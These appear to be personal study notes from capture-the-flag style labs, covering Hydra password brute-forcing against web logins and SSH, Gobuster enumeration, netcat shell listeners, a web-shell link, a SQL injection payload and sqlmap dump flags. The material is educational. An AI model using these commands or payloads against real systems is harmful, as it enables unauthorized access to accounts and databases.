 


#### Hydra:


**HTTP POST Example:** 
```
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect" -V 
```

Bruteforce molly's password using rockyou.txt, we spesify the ip and that this is a post request. We also have to spesify the site we are on(in the url we see the /login, then spesify the parameters that we want to bruteforce). Also we have to spesify the error we get when trying wrong credentials. 

**ssh Example:**
```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.220.149 -t 4 ssh -V
```



#### Gobuster: 
It enumerates web directories, DNS subdomains, vhosts, Amazon S3 buckets, and Google Cloud Storage by brute force, using specific wordlists and handling the incoming responses


**Basic directory enumeration:**
```
root@ip-10-10-63-65:/usr/share/wordlists/dirbuster# gobuster dir -u "http://www.offensivetools.thm" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r 
```

Note: By default, the dir mode does not work recursively e.i. it does not go into subdirectories. 

Useful:
```
gobuster -h: Overview over differnt commands
gobuster dir -h: Overview over different flags for dir command
```


**Basic DNS subdomain enumeration:** 
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster dns -d offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt 
```


#### Vhost vs DNS subdomains: 

**vhost:** Virtual hosts are a server-side configuration mechanism used by web servers (like Apache or Nginx) to host multiple websites or applications on a single server or IP address

**Subdomains:** DNS subdomains are sub-level domains created within the Domain Name System hierarchy. They are part of the domain name and used to organize resources under a parent domain.
![[Pasted image 20241124200929.png]]

In gobuster: 
- `vhost` mode will navigate to the URL created by combining the configured HOSTNAME (-u flag) with an entry of a wordlist.
- `dns` mode will do a DNS lookup to the FQDN created by combining the configured domain name (-d flag) with an entry of a wordlist.


Basic vhost example:
```
root@ip-10-10-205-161:/usr/share/wordlists/SecLists/Discovery/DNS# gobuster vhost -u "http://10.10.106.172" --domain offensivetools.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320
```

Since we sending actual webrequests (insted of doing dsn lookup) we have to spesify a few more flags then for the dns scan. 

Notice we need to spesify both the url and the domain! The --append-domain flag does also need to be set for it to work.  


Basic vHost enumeration:


#### Netcat alternatives:

- rlwarp with nc: `rlwarp nc -lvnp 443` Improves the shell, lets us use arrowkeys etc
- Ncat: `ncat -lvnp 4444` improved netcat with SSL 


#### Shell payloads:
With unrestricted file upload vulnerability, we can upload one of these to get a web shell:
https://www.r57shell.net/index.php



#### SQL injection - SQLmap:

Basic example:
```

Normal query: 
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';

SQL injection:
Username: John
Password: abc' OR 1=1;-- -

SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```


automate the task with sqlmap:

```
Basic synatx with get parameters:

sqlmap -u "http://site?email=test&.." 

Then we can add flags such as 
--dbs: Databases 
--tables: Tables 
-D: Spesify a spesific database
-T: Spesify a spesifc table 
--dump: Dump the content of a table

```


#### OSINT:
Overview of tools: https://osintframework.com/
The Harvester: https://github.com/laramies/theHarvester
email finder: https://hunter.io/
